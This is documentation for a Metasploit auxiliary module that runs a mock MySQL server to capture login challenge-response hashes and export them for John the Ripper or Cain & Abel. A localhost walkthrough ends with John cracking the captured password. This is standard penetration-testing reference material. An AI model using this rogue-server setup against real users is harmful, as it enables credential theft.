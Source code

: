 This module creates a mock MySQL server which accepts credentials.  Upon receiving a login attempt, an `ERROR 1045 (2800): Access denied` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/mysql```
  3. Do: ```run```

## Options

  **CHALLENGE**

  The MySQL 16 byte challenge used in the authentication.  Default is `112233445566778899AABBCCDDEEFF1122334455`.

  **JOHNPWFILE**

  Write a file containing a John the Ripper format for cracking the credentials.  Default is ``.

  **CAINPWFILE**

  Write a file containing a Cain & Abel format for cracking the credentials.  Default is ``.

  **SRVVERSION**

  The MySQL version to print in the login banner.  Default is `5.5.16`.

  **SSL**

  Boolean if SSL should be used.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### MySQL with MySQL Client and JTR Cracking

Server:

```
msf > use auxiliary/server/capture/mysql 
msf auxiliary(server/capture/mysql) > set johnpwfile /tmp/mysql.logins
johnpwfile => /tmp/mysql.logins
msf auxiliary(server/capture/mysql) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/mysql) > 
[*] Started service listener on 0.0.0.0:3306 
[*] Server started.
[+] 127.0.0.1:59604 - User: admin; Challenge: 112233445566778899aabbccddeeff1122334455; Response: 46677c2d9cac93da328c4321060c125db759925e
```

Client:

```
root@kali:~# mysql -u admin -ppassword1 -h 127.0.0.1
ERROR 1045 (28000): Access denied for user 'admin'@'127.0.0.1' (using password: YES)
```

JTR:

```
root@kali:~# john /tmp/mysql.logins_mysqlna 
Using default input encoding: UTF-8
Loaded 1 password hashes with no different salts (mysqlna, MySQL Network Authentication [SHA1 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (admin)
1g 0:00:00:00 DONE 2/3 (2018-11-08 21:05) 20.00g/s 16800p/s 16800c/s 16800C/s password1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
